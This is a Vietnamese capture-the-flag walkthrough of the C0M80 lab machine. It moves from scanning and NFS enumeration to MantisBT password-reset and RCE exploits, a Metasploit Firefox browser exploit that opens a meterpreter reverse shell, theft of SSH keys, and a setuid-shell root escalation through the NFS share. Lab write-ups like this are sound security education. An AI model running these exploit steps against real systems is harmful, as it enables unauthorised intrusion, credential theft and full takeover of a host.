



Link download: C0M80: 1 Difficulty: [Difficult] but depends on you really (Đù, nó khó vê lờ luôn, thề!)
Information Gathering
Nmap
Vẫn là những bước đầu tiên, kiếm xem machine ml này đang có IP là gì.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17
$ nmap 10.10.10.0/24 Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-29 09:40 +07 Nmap scan report for 10.10.10.1 Host is up (0.00019s latency). All 1000 scanned ports on 10.10.10.1 are closed
Nmap scan report for 10.10.10.12 Host is up (0.00025s latency). Not shown: 995 closed ports PORT STATE SERVICE 80/tcp open http 111/tcp open rpcbind 139/tcp open netbios-ssn 445/tcp open microsoft-ds 2049/tcp open nfs
Nmap done: 256 IP addresses (2 hosts up) scanned in 3.14 seconds
Okay, 10.10.10.12, và tạm thời có mấy cổng với thông tin cơ bản, machine này có thể đang chạy OS là Windows. Tiếp tục tìm kiếm sâu hơn xem sao.
$ nmap -p- 10.10.10.12 Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-29 09:41 +07 Nmap scan report for 10.10.10.12 Host is up (0.0031s latency). Not shown: 65524 closed ports PORT STATE SERVICE 80/tcp open http 111/tcp open rpcbind 139/tcp open netbios-ssn 445/tcp open microsoft-ds 2049/tcp open nfs 20021/tcp open unknown 41971/tcp open unknown 44373/tcp open unknown 44663/tcp open unknown 57736/tcp open unknown 59619/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 2.67 seconds
$ nmap -p 80,111,139,445,2049,20021,41971,44663,57736,59619 -sV -sC 10.10.10.12 Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-29 09:43 +07 Nmap scan report for 10.10.10.12 Host is up (0.00057s latency).
PORT STATE SERVICE VERSION 80/tcp open http Microsoft IIS httpd 6.0 |_http-server-header: Microsoft-IIS/6.0 |_http-title: BestestSoftware Ltd. 111/tcp open rpcbind 2-4 (RPC #100000) | rpcinfo: | program version port/proto service | 100000 2,3,4 111/tcp rpcbind | 100000 2,3,4 111/udp rpcbind | 100000 3,4 111/tcp6 rpcbind | 100000 3,4 111/udp6 rpcbind | 100003 2,3,4 2049/tcp nfs | 100003 2,3,4 2049/tcp6 nfs | 100003 2,3,4 2049/udp nfs | 100003 2,3,4 2049/udp6 nfs | 100005 1,2,3 36089/udp mountd | 100005 1,2,3 43700/tcp6 mountd | 100005 1,2,3 56182/udp6 mountd | 100005 1,2,3 59619/tcp mountd | 100021 1,3,4 39062/tcp6 nlockmgr | 100021 1,3,4 39093/udp6 nlockmgr | 100021 1,3,4 44373/tcp nlockmgr | 100021 1,3,4 45251/udp nlockmgr | 100024 1 36017/udp status | 100024 1 52742/udp6 status | 100024 1 56325/tcp6 status | 100024 1 57736/tcp status | 100227 2,3 2049/tcp nfs_acl | 100227 2,3 2049/tcp6 nfs_acl | 100227 2,3 2049/udp nfs_acl |_ 100227 2,3 2049/udp6 nfs_acl 139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP) 2049/tcp open nfs_acl 2-3 (RPC #100227) 20021/tcp open unknown | fingerprint-strings: | DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, HTTPOptions, RPCCheck, RTSPRequest: | 220 bestFTPserver 1.0.4 ready... | ftp> | Unknown ftp command | ftp> | GetRequest: | 220 bestFTPserver 1.0.4 ready... | ftp> | (remote-file) | usage: get remote-file [ local-file ] | ftp> | Help: | 220 bestFTPserver 1.0.4 ready... | ftp> | Commands may be abbreviated. | Commands are: | mdelete qc site | disconnect mdir sendport size | account exit mget put status | append form mkdir pwd struct | ascii get mls quit system | bell glob mode quote sunique | binary hash modtime recv tenex | help mput reget tick | case idle newer rstatus trace | image nmap rhelp type | cdup ipany nlist rename user | chmod ipv4 ntrans reset umask | close ipv6 open restart verbose | prompt rmdir ? | delete ls passive desert | debug macdef proxy send | ftp> | NULL: | 220 bestFTPserver 1.0.4 ready... |_ ftp> 41971/tcp open mountd 1-3 (RPC #100005) 44663/tcp open mountd 1-3 (RPC #100005) 57736/tcp open status 1 (RPC #100024) 59619/tcp open mountd 1-3 (RPC #100005) 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : SF-Port20021-TCP:V=7.91%I=7%D=12/29%Time=5FEA97E1%P=x86_64-pc-linux-gnu... Service Info: Host: C0M80; OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 158.12 seconds
Sơ qua đây thì có thể thấy machine đang mở cổng đáng chú ý như 80-HTTP, 139 và 445 Samba, 2049-NFS, 20021 có thể là FTP. Tìm hiểu qua về NFS, cái này mới lạ đấy, thề là lần đầu mình thấy cái này :v
https://en.wikipedia.org/wiki/Network_File_System Network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems (Sun) in 1984,[1] allowing a user on a client computer to access files over a computer network much like local storage is accessed. NFS, like many other protocols, builds on the Open Network Computing Remote Procedure Call (ONC RPC) system. The NFS is an open standard defined in a Request for Comments (RFC), allowing anyone to implement the protocol.
Giờ thì xem xem thư mục nào trên machine cho phép chia sẻ file.
1 2 3
$ showmount --exports 10.10.10.12 Export list for 10.10.10.12: /ftpsvr/bkp *
Mount nó vào một thư mục trong máy mình để xem trong đấy có chia sẻ cái gì. Việc này yêu cầu bạn phải có quyền tương đương hoặc lớn hơn với chủ sở hữu (owner) đối với thư mục được mount.
1 2 3 4 5 6 7
$ sudo mount -t nfs 10.10.10.12:/ftpsvr/bkp /tmp/duma
$ sudo ls -al /tmp/duma total 2736 drwxrwx--- 2 root backup 4096 Sep 23 2017 . drwxrwxrwt 18 root root 36864 Dec 31 09:53 .. -rw-r--r-- 1 backup backup 2757002 Dec 31 09:53 ftp104.bkp
Thó được file ftp104.bkp, mở ra thì thấy toàn mã hexdump, kiểm tra các bit signature thì thấy đây có thể là một file thực thi của WIndows, nhưng convert sang .exe thì thực thi bị lỗi, vẫn chưa hiểu sao. Dù mình đã xóa đi những ký tự không phải hexdump như thông tin về ngày tháng ở đầu file, mấy dòng kẻ… Kệ đấy đã, để sau, giờ đi kiếm thông tin tiếp. Vào trong cái website trên cổng 80 nhận được một trang landing, hmm, nothing to do here.
Quét lặp lại với các thư mục tìm được, tóm được thằng phpInfo ở đường dẫn http://10.10.10.12/dev/info.php, rất rất nhiều thông tin giá trị được show ra trước mặt, có thể gần như khẳng cmn định là machine này đang sử dụng OS là Windows, hoặc chí ít thì cái dịch vụ này đang được chạy bởi cái gì đó trên nền Windows OS.
1 2 3
PHP Version 5.2.8 MySQL version: 5.1.30 bla bla
Thêm nữa, trong uri /bugs, Mantis Bug Tracker, cái này mình cũng lần đầu gặp luôn :)) chả biết mọe gì về nó cả, chỉ biết là nó yêu cầu login, Okay, Google về nó xem sao.

Searchsploit
Tìm kiếm với Searchsploit về thằng này để mò mẫm một hướng khai thác.
Tạm thời chưa biết MantisBT đang sử dụng ở đây là phiên bản bao nhiêu, chưa biết thì lại phải mò thôi. Nhìn quanh thì thấy có một lỗi cho phép đổi mật khẩu người dùng mà không cần qua xác thực, ảnh hưởng đến một loạt các phiên bản từ 1.3.0 đến 2.3.0, tức là khả năng cũng cao cái nủa nợ kia bị dính. https://www.cvedetails.com/cve/CVE-2017-7615/ https://www.exploit-db.com/exploits/41890
Với id=1, trong trường username nhận được hiển thị là bob, đổi mật khẩu thì vẫn éo truy cập được, tăng cái param id lên 2 3 4 5, thì có được tài khoản của alice. Tạm thời đổi mật khẩu cùa bạn alice xinh đẹp thành 00000, và login vào xem trong này có gì.

Lần mò trong đây một hồi để thó thêm thông tin, phiên bản MantisBT đang dùng là 2.3.0, đường dẫn là /var/www/html…, ố ồ, đây là đường dẫn của linux system mà? Ở trên thì có thông tin cho thấy đây là Windows System. Như vậy thì có 2 khả năng ở đây. Một, đây là máy Windows OS, nhưng dịch vụ HTTP trên cổng 80 là chạy dưới một hệ giả lập của Linux OS. Hai, đây là máy Linux OS, và chạy giả lập dịch vụ FTP cổng 20021 nên Windows. Gác lại vụ đó, quay sang khai thác lỗi RCE trên MantisBT mà searchsploit tìm thấy ở trên. Up shell đồng thời bật lắng nghe trên máy ở cổng 22222. https://www.exploit-db.com/exploits/48818 Code này chạy bằng python2, cần thêm lại một số thông tin trong hàm khởi tạo, có thể có lỗi khi chạy do syntax error hoặc gì gì đó, anh em chỉ cần sửa code để chạy cho đúng là xong =))
1 2 3 4 5 6 7
$ nc -nlvp 22222 listening on [any] 22222 ... connect to [10.10.10.1] from (UNKNOWN) [10.10.10.12] 41396 bash: cannot set terminal process group (2042): Inappropriate ioctl for device bash: no job control in this shell www-data@C0m80:/var/www/html/bugs$ id uid=33(www-data) gid=33(www-data) groups=33(www-data)
Www-data shell
Okay, có shell của www-data. Chắc kèo đây là máy Linux OS rồi. Chắc chắn hơn thì kiểm tra các dịch vụ đang chạy, thấy mấy dòng bên dưới là đủ biết rồi, hê hê, Linux OS, chạy giả lập ứng dụng Windows với wine.
www-data@C0m80:/home/b0b/Desktop$ cat notes.txt These are my notes... --------------------- I prefer the old fasioned ways of doing things if I'm honest 1. Remember to prank Jeff with Alice :D 2. Buy Metallica tickets for me and Alice for next month. 3. Call Mom for her birthday on Thursday, and remeber to take flowers at the weekend. 4. Draft a resignation letter as Jeff to send to Mr Cheong. LOL :D
www-data@C0m80:/home/b0b/Desktop$ cat pwds.txt cat pwds.txt ## Reminder to self! I moved all my passwords to a new password manager
Phải nói là thằng bob này khá là quý alice =)) mua vé xem phim cho 2 đứa. Và thêm nữa, một cái đáng chú ý bob tự note cho bản thân là nhớ mật khẩu đã được chuyển tới một trình quản lý mật khẩu mới. Đây có thể là một cái hint. Vì với một bài CTF thì không có gì là ngẫu nhiên cả. Câu hỏi bỏ ngỏ ở đây, trình quản lý mật khẩu ấy là gì? Qua thư mục của al1ce xem thế nào.
Dòng này quan trọng đấy, nó tạo ra cái file ftp104.bkp ở trên tìm được khi mount thư mục NFS. Và đấy là lý do tại sao khi convert lại thì bị lỗi =)). Look at that!
Đầu tiên là date được ghi vào /ftpsvr/bkp/ftp104.bkp.
Tiếp, 66 cái gạch ngang được ghi vào :)) đù mé, chắc để cho phân biệt các phần.
Hexdump của /ftpsvr/bestFTPserver.exe được nối vào dưới.
Lại tiếp tục 66 cái dấu gạch.
Cuối cùng là hexdump của /ftpsvr/bfsvrdll.dll được thêm vào cuối cùng.
Thế là về cơ bản, đã có toàn bộ hexdump của cả file thực thi (.exe) và thư viện đi kèm với nó (.dll), khôi phục lại bestFTPserver.exe và bfsvrdll.dll để có thể chạy mô phỏng lại dịch vụ FTP này. Ơ thế chạy mô phỏng đề làm mẹ gì? Để biết được cái hệ thống thật kia nó chạy như nào chứ sao nữa. Kết nối với FTP trên cổng 20021 của machine xem có gì.
1 2 3 4 5 6 7 8 9 10 11 12
$ ftp 10.10.10.12 20021 Connected to 10.10.10.12. 220 bestFTPserver 1.0.4 ready... Name (10.10.10.12:#####): ftp>331 Anonymous login OK, send your e-mail as password Login failed. ftp> dir ftp>502 Unknown ftp command ftp> ls ftp>502 Unknown ftp command ftp>exit ftp>TryHarder ;D
Cái này thì xương máu mà nói, mình thử hết rồi, tất cả lệnh đều bị chặn lại hết. Nó chặn thế nào, chặn kiểu gì, thì phải xem nó làm gì, làm như nào. Nhắc lại trên là đã có bestFTPserver.exe và bfsvrdll.dll để chạy mô phỏng, giờ reverse nó với Ollydbg.
Mình là thằng đéo biết gì về reverse, nên là chỉ lướt qua qua mấy cái string ASCII, xem nó nhảy vào đâu, gọi cái gì… Tóm cái váy lại, FTP này thực hiện khá là đơn giản, đúng như cái tên, bestFTPserver, việc của nó là so sánh các chuỗi lệnh nhập vào, éo làm gì cả, hiển thị ra thông báo lỗi luôn =)). Có vài lệnh thì in ra văn bản (system, ls…).
Nhưng đoạn này, với các input với mở đầu là http hoặc https, nó sẽ thực hiện lệnh explorer để mở đường dẫn với trình duyệt mặc định.
Lệnh explorer trên Windows để gọi đến trình quản lý file (File Explorer), nhưng nếu tham số đầu vào là một đường link, nó sẽ gọi đến trình duyệt (browser) và truy cập vào đường link đó.
Chưa rõ được trình duyệt mặc định ở đây là gì, nãy ngó qua thư mục Desktop thì có thấy Firefox. Kiểm tra phiên bản của Firefox xem có dính CVE nào không.
1 2 3 4 5 6 7 8 9 10 11 12
www-data@C0m80:/home/b0b/.wine/drive_c/Program Files/Mozilla Firefox$ cat install.log ... Mozilla Firefox Installation Started: 2017-09-19 4:27:27 ------------------------------------------------------------------------------- Installation Details ------------------------------------------------------------------------------- Install Dir: C:\Program Files\Mozilla Firefox Locale : en-US App Version: 13.0.1 GRE Version: 13.0.1 OS Name : Windows XP Target CPU : x86
Ở đây mình dùng module auto_pwned của metasploit, đại khái là nó sẽ tạo ra một loạt các kịch bản khai thác sẵn có và nhét hết vào 1 đường link, sau khi trình duyệt truy cập vào, nếu có lỗi khớp với các kịch bản khai thác đang được chạy, metasploit sẽ lấy về một hoặc nhiều session (hiểu là shell) trên máy nạn nhân, lấy được bao nhiêu thì còn tùy vào số lỗi có thể khai thác.
1 2 3
[+] Please use the following URL for the browser attack: [+] BrowserAutoPwn URL: http://10.10.10.1:8080/eKl8aErr [*] Server started.
Copy cái URL kia rồi bắn sang FTP.
1 2
ftp>http://10.10.10.1:8080/eKl8aErr BugReport Link Sent to Bob...
Okay, vậy là Firefox có dính 2 lỗi RCE thật, nhưng éo lấy được session nào cả! TẠI SAO?
1 2 3 4 5 6 7 8 9
[*] Gathering target information for 10.10.10.12 [*] Sending HTML response to 10.10.10.12 nil versions are discouraged and will be deprecated in Rubygems 4 [*] 10.10.10.12 firefox_proto_crmfrequest - Sending HTML [*] 10.10.10.12 firefox_proto_crmfrequest - Sending the malicious addon [*] 10.10.10.12 adobe_flash_hacking_team_uaf - Request: /TbML/tHTebS/ [*] 10.10.10.12 adobe_flash_hacking_team_uaf - Sending HTML... [*] 10.10.10.12 adobe_flash_hacking_team_uaf - Request: /TbML/tHTebS/ggKSZR.swf [*] 10.10.10.12 adobe_flash_hacking_team_uaf - Sending SWF...
Lần này thì lấy được session, nhưng shell này bị ngu si thế đéo nào ấy :D Sau một hồi chán nản và quay ra chơi cờ vua với đồng nghiệp, ngồi lại vào ghế, ngắm nghía cẩn thận các option, mình phát hiện ra đoạn này.
1 2 3 4 5 6
Exploit targets:
Id Name -- ---- 0 Universal (Javascript XPCOM Shell) 1 Native Payload
Ồ nố! Mặc định target đang là ID 0, tức Universal (Javascript XPCOM Shell). Lúc này cần chú ý đến một phần quan trọng nữa của Metasploit, đó là PAYLOAD. Mặc định, PAYLOAD sẽ là generic/shell_reverse_tcp, lúc này Metasploit sẽ tự động chọn một PAYLOAD phù hợp để tải lên. Việc tự động chọn như này, có thể đúng, có thể sai, và trong trường hợp này thì nó đã sai. Có thể nó đã tải lên một PAYLOAD dành cho Linux, hoặc gì gì đó, trong khi dịch vụ FTP này thì đang chạy giả lập Windows, vậy nên sẽ cần một PAYLOAD dành cho Windows. Ở đây mình chọn là windows/meterpreter/reverse_tcp. Để hiểu đúng, và hiểu rõ về PAYLOAD thì thực sự mình cũng đéo hiểu :v, hẹn khi nào hiểu thì sẽ update lại bài viết Đổi lại target ID 1 và PAYLOAD windows/meterpreter/reverse_tcp. EXPLOIT!
1 2 3 4 5 6 7 8 9 10 11 12 13
[*] 10.10.10.12 firefox_proto_crmfrequest - Gathering target information for 10.10.10.12 [*] 10.10.10.12 firefox_proto_crmfrequest - Sending HTML response to 10.10.10.12 [*] 10.10.10.12 firefox_proto_crmfrequest - Sending HTML [*] 10.10.10.12 firefox_proto_crmfrequest - Sending the malicious addon [*] Sending stage (175174 bytes) to 10.10.10.12 [*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.12:47824) at 2021-01-01 21:42:17 +0700 msf6 exploit(multi/browser/firefox_proto_crmfrequest) > sessions -i 1 [*] Starting interaction with 1... meterpreter > shell Process 109 created. Channel 1 created. Microsoft Windows 5.1.2600 (2.0.2) Z:\home\b0b>
Giờ thì có thể làm rất rất nhiều việc với meterpreter, ăn trộm cái thư mục .ssh của cả b0b và al1ce về để xem có mối nào vào được shell linux không, chứ shell Command line Windows giả lập thì chịu, chả được cái tích sự gì.
Nội dung authorized_keys và id_rsa.pub là giống hệt nhau. Điều này có nghĩa là, cái đống .ssh trong thư mục của b0b được dùng để login ssh vào tài khoản của al1ce. Loằng ngoằng vcl! Nhưng ban nãy quét với Nmap thì cũng chả thấy cổng nào mở dịch vụ SSH cả. Lừa nhau à? Lần này sếp xuất hiện phía sau như một vị thần mạch bảo, cổng đấy mở sẵn rồi, chúng mày chỉ việc vào thôi, 6xx22. Okay, giờ thì đi tìm x.
1 2 3 4 5 6 7
www-data@C0m80:/etc/ssh$ cat ssh_config ... # What ports, IPs and protocols we listen for Port 65122 # Use these options to restrict which interfaces/protocols sshd will bind to ListenAddress ::1 #ListenAddress 127.0.0.1
Yep, đây là lí do tại sao Nmap không mò ra được, vì nó chỉ cho bật lắng nghe trên localhost mà thôi, trên cổng 65122. Nhưng SSH vào với id_rsa không được, vì key không đúng định dạng. Một hồi quan sát chăm chú hết mức có thể, lúc này đã là 17:35 và công ty thì về hết một nửa rồi. Cả mấy anh em đang mò mẫm thì sếp gọi vào phổ biến abc abc… và hint cho một phát là dùng plink.
Plink
Để sử dụng plink để kết nối ssh, thì phải đổi lại định dạng key lại thành ppk. Không đơn giản là chỉ việc nhấn F2 và sửa tên file, để đổi id_rsa sang ppk phải dùng đến puttygen và cần có passphrase. Ờ, thế passphrase ở đéo đâu bây giờ?
Quay lại với đống file trong thư mục .ssh vừa ăn trộm từ thằng b0b, có cái file .save~ lạ vl:
1 2 3 4 5 6 7 8 9 10 11
###### NO PASWORD HERE SRY ######
I'm using my new password manager
PWMangr2
just a note to say
WELL DONE & KEEP IT UP ;D
#################################
Điều này giải đáp câu hỏi bỏ ngỏ ở trên, trình quản lý mật khẩu là gì? là PWMangr2. Search Google về thằng này thì chả có thông tin mẹ gì cả, chỉ toàn là Writeup về đúng cái bài COM80 này. Điều này chứng tỏ 1 điều, PWMangr2 là trình quản lý tự thằng ra đề COM80 này nghĩ ra, giờ thì phải tìm trong toàn hệ thống xem nó ở đâu.
Lịt pẹ! Chả nhẽ lại đem rock-you ra brute force? Hint ở đây là “superbuddies”, bạn thân của thằng lìn Bob là ai? Bố mày biết được à? Kéo lại đoạn trên, với mấy dòng note thì thấy thằng Bob đang muốn đi xem phim cùng Alice =)) và đống key lấy được để SSH vào al1ce cũng từ thư mục của thằng b0b. Mạnh dạn đoán mật khẩu ở đây là alice :v Cái này đéo phải tôi đoán, thằng Hoàng Mông To đoán. Yep. Mật khẩu đúng là alice, nếu không đoán được thì hoàn toàn có thể dùng rock-you để brute force vì từ khóa alice có trong cái wordlist ấy.

Khả năng cao đây là passphrase mà chúng ta đang tìm, điền nó vào puttygen để chuyển key sang định dạng ppk thôi nào. Done! Giờ thì chuyển private.ppk sang cho www-data shell và login vào SSH của al1ce.
www-data@C0m80:/tmp$ plink -ssh -P 65122 al1ce@localhost -i private.ppk plink -ssh -P 65122 al1ce@localhost -i private.ppk Using username "al1ce". Passphrase for key "imported-openssh-key": 7M6Kt8tC8X5Qz99@Eeb8592Z$Fd@u286 Welcome to C0m80 :DRunning on WandawsXP SP7.4... Last login: Sat Sep 23 03:18:49 2017 from localhost $ id uid=1001(al1ce) gid=34(backup) groups=34(backup)
Ồ zé! Có được shell của al1ce, group backup. Nhưng chưa thể sử dụng sudo do chúng ta login với ssh key, không có mật khẩu để dùng sudo.
Do al1ce thuộc group backup, nên al1ce là owner của thư mục /ftpsvr/bkp, vậy nên al1ce có thể thêm/sửa/xóa thư mục này. Điều này quan trọng, vì như đã biết ở trên, thư mục này chúng ta đã mount về máy với thư mục /tmp/duma với quyền root, khi đã mount, 2 thư mục /ftpsvr/bkp và /tmp/duma có thể coi là 1. Điều đó có nghĩa là, khi có quyền root trên /tmp/duma thì cũng có quyền root trên /ftpsvr/bkp! Ở shell al1ce, copy /bin/sh vào /ftpsvr/bkp/.
1 2 3
$pwd /ftpsvr/bkp $ cp /bin/sh .
Ở root shell trên máy mình, chuyển quyền sở hữu file sh cho root và set UID cho nó. Ơ thế tại sao không copy luôn bash/sh từ root shell trên máy mình vào đấy, đỡ mất công chuyển quyền sở hữu file? Vì chưa chắc bash/sh trên máy mình đã tương thích được với hệ thống bên al1ce, có thể khác biệt x86 x64, hoặc nhân Linux, etc… thử mà xem :))
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17
# ls -al total 2848 drwxrwx--- 2 root backup 4096 Jan 1 23:05 . drwxrwxrwt 23 root root 36864 Jan 1 23:03 .. -rw-r--r-- 1 backup backup 2757002 Jan 1 23:05 ftp104.bkp -rwxr-xr-x 1 1001 backup 112204 Jan 1 23:05 sh # chown root sh # ls -al total 2848 drwxrwx--- 2 root backup 4096 Jan 1 23:05 . drwxrwxrwt 23 root root 36864 Jan 1 23:03 .. -rw-r--r-- 1 backup backup 2757002 Jan 1 23:05 ftp104.bkp -rwxr-xr-x 1 root backup 112204 Jan 1 23:05 sh # chmod +s sh
Mặc dù đã có quyền Root nhưng nếu vẫn chưa thoản mãn với cái uid 1001 của Al1ce thì anh em có thể sửa cmn file /etc/passwd đi để chèn thêm một tài khoản các với UID 0 hoặc sửa password của Root chẳng hạn =)) Root xịn!
1 2 3 4 5
$ su root Password: 00000
root@C0m80:~# id uid=0(root) gid=0(root) groups=0(root)